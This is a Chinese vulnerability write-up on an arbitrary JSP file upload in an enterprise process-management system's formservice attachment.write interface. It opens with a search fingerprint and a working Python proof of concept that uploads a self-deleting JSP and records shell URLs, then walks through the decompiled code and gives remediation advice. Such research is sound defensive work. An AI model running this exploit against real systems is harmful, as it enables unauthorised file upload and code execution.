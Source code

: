 # 漏洞复现

```
# body="企业流程化管控系统" && body="密码(Password):"

import re
import requests
import urllib3
import multiprocessing

urllib3.disable_warnings()

proxies = {
    "http": "http://127.0.0.1:7890",
    "https": "http://127.0.0.1:7890"
}

data = '''<% out.println("CdaF3C8f77065666");new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>'''


def poc(url):
    target = url + "/formservice?service=attachment.write&isattach=false&filename=acebe1BA7BC18dB4.jsp"
    try:
        r = requests.post(target, data=data, verify=False, proxies=proxies, allow_redirects=False)
        print(r.text)
        pattern = r'<root>(.*?)</root>'
        match = re.search(pattern, r.text)
        if match:
            filename = match.group(1)
            shell = url + f"/form/temp/{filename}"
            if requests.get(shell).status_code == 200:
                with open("result.txt", "a") as f:
                    f.write(shell + "\n")
                    f.close()
                print("shell地址：" + shell)
            else:
                pass
    except:
        pass


if __name__ == "__main__":
    poc("http://127.0.0.1:8081")
```

![image-20230820175259879](images/1.png)

![image-20230820175305253](images/2.png)

访问后删除

# 漏洞分析

在另外一篇关于formservcie造成的sql注入漏洞的分析中，有关于FormService这个接口的作用和解析流程，就不赘述了。

定位到路由FormService

![image-20230821190925810](images/3.png)

这个方法首先会从Request对象中取出service参数赋值给var6，取出第一个值，然后根据这个值对相应类进行实例化，service可以通过Class.Method这种形式来指定调用service对应class的对应方法，例如attachment.write，service对应关系在plugins.xml

![image-20230824153308596](images/4.png)

通过getService返回Object数组，里面包含实现类，对应的方法，通过方法参数接口得到的int值等等

![image-20230824155322372](images/5.png)

![image-20230821192130472](images/6.png)

然后对变量进行赋值

![image-20230821193427977](images/7.png)

这里因为是反编译的代码，调试过程看到的变量感觉有点问题，其实var8才是那个对应的attachment类，var9时长度，var10是attachment字符串，var11是write字符串，var12时attachment类实现的所有接口

![image-20230821193613324](images/8.png)

也就是IScurityService接口，遍历获取接口，当实现了IScurityService接口的时候可以进入if方法，通过反射调用attachment的isAccessible方法判断write方法能否被访问

![image-20230821193928656](images/9.png)

只要不为空，并且不包含delete子串即可，接下来当在207行中如果获取到了isAccessible方法，不为空则跳出循环

![image-20230821194609224](images/10.png)

接下来判断请求到方法是否为GET，并且调用的方法长度是否为0 ，这里var9不是attachment，而是int数据5，当为POST的时候进入else分支

![image-20230821195329464](images/11.png)

没有传入content，也不是文件上传的请求的话，就进入else，var49的定义在service最开头

![image-20230821195356678](images/12.png)

没有传入inflate的时候为flase，在else if中的判断也不满足，因为write的长度为5

在后面通过长度判断进入到对应的if

![image-20230821195536346](images/13.png)

获取POST的原始数据流赋值给var60，后面还会判断是否实现了AbstractArteryService也会有一系列流程

![image-20230821223122858](images/14.png)

当不满足的话，就会进入else分支，因为var9代表调用方法的长度不为0 ，所以创建一个Object类，里面是request，response对象，以及POST获取到的原始数据流

![image-20230821223420966](images/15.png)

然后通过反射，调用对应的Method，因为传入的service是attachment.write，所以这里是调用的attachment的write方法，传入了过程构造的Object对象

![image-20230821223801476](images/16.png)

这个方法首先获取了两个参数，filename和isattach，isattach默认为true，可以自己控制进入不同的分支，在else分支中

![image-20230821224006721](images/17.png)

存在文件写入的相关操作，获取了rootpath，因为isattach此时为false，所以rootpath其实是在/form目录，接下来通过一系列拼接操作生成新的attachFilename，然后将文件写入/form/temp，内容是传入的is这个InputStream，即POST的原始数据流

![image-20230821224548149](images/18.png)

然后返回写入的文件名，然后在service方法的最后会通过response对象输出一个xml信息到页面上

![image-20230821224926474](images/19.png)

输出类似如下信息

![image-20230821225237944](images/20.png)

# 漏洞修复

1. 对应attachment类的write接受的filename参数进行限制，禁止jsp等文件上传。
2. 在write方法对接受到的数据流再进行一遍检查，进行黑名单过滤。
3. 联系厂商，在漏洞修复后第一时间进行升级。